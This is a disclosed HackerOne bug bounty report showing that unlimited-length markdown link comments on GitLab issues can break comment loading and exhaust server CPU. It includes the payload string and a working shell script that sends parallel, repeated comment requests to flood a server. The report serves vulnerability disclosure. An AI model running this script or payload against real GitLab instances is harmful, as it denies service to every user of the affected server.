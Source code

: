 # DoS attack via comment on Issue

## Report Details
- **Report ID**: 557154
- **URL**: https://hackerone.com/reports/557154
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-04-30T17:59:37.266Z
- **Disclosed**: 2019-11-21T14:27:05.916Z

## Reporter
- **Username**: 8ayac
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
There is no limit to the number of characters in the issue comments, which allows a DoS attack. The DoS attack affects both server-side and client-side.

**NOTE**: This bug happens on GitLab.com.

### Steps to reproduce
▼Attack for Client-side 
1. Sign in to GitLab.
2. Create a project as below:
    - Project name: test01
    - Project slug: test01
    - Visibility Level: Public
    - Initialize repository with README: Checked
3. Create a new issue for the project created in Step 2.
4. Post some comments on the Issue created in Step 3.
5. Post a comment as below:
`[a](/a/a/a/a/a/a/a/a/a/a/a/a/a/a.....(50000 times))`
6. Reload the Issue page.

Result: I received an error message "Something went wrong while fetching comments. Please try again." And I could not fetch all the comments.

Note: In Step 5, if you can not post the comment from the browser, send the HTTP request directly in some way.
Note: The string to post in step 5 is described in the attached file F481358.

- PoC movie: F481363

▼Attack for Server-side
An attacker can exhaust server resources by continuously sending the requests generated in Step 5 of [Attack for Client-side]. This causes a denial of service to all users.

For example, you can verify it with a script as below:
```sh
#!/bin/sh
charBlock=$(head -c 50000 /dev/zero | sed -e 's/\x00/\/a/g')
payload='[a]('$charBlock')'

gitlabHost=$1
ProjectURL=$2
targetID=$3
loop=$4

curl=`cat << EOS
curl
  --insecure
  --silent
  --output /dev/null
  ${ProjectURL}/notes?target_id=${targetID}\&target_type=issue
  --header 'Host: ${gitlabHost}'
  --header 'X-CSRF-Token: [PLACEHOLDER]'
  -b '_gitlab_session=[PLACEHOLDER]'
  --data-binary 'note%5Bnoteable_type%5D=Issue&note%5Bnoteable_id%5D=3&note%5Bnote%5D=${payload}&merge_request_diff_head_sha=undefined'
EOS`

for i in `seq ${loop}`
do
    eval ${curl}&
done
```

Run the above script with the following command to see that the server's CPU is exhausted.
```
$ ./poc.sh [GitLab host] [Project URL] [target ID(※1)] [Repeat count of request]
```
※1: Get from the request generated in step 5 of [Client-side attack].

- PoC movie:  F481365 


#### Results of GitLab environment info
```
System information
System:
Current User:   git
Using RVM:      no
Ruby Version:   2.5.3p105
Gem Version:    2.7.6
Bundler Version:1.17.3
Rake Version:   12.3.2
Redis Version:  3.2.12
Git Version:    2.18.1
Sidekiq Version:5.2.5
Go Version:     unknown

GitLab information
Version:        11.10.2
Revision:       f3e84e78b62
Directory:      /opt/gitlab/embedded/service/gitlab-rails
DB Adapter:     PostgreSQL
DB Version:     9.6.11
URL:            https://gitlab.example.com
HTTP Clone URL: https://gitlab.example.com/some-group/some-project.git
SSH Clone URL:  git@gitlab.example.com:some-group/some-project.git
Using LDAP:     no
Using Omniauth: yes
Omniauth Providers:

GitLab Shell
Version:        9.0.0
Repository storage paths:
- default:      /var/opt/gitlab/git-data/repositories
GitLab Shell path:              /opt/gitlab/embedded/service/gitlab-shell
Git:            /opt/gitlab/embedded/bin/git
```

## Impact

### Impact for client-side 
All comments on Issue will be inaccessible.

### Impact for server-side:
The CPU is exhausted and users will be able to access the GitLab service.

NOTE: All users who can comment on the issue can exploit this vulnerability.

## Attachments
- payload.txt
- poc1.mp4
- poc2.mp4
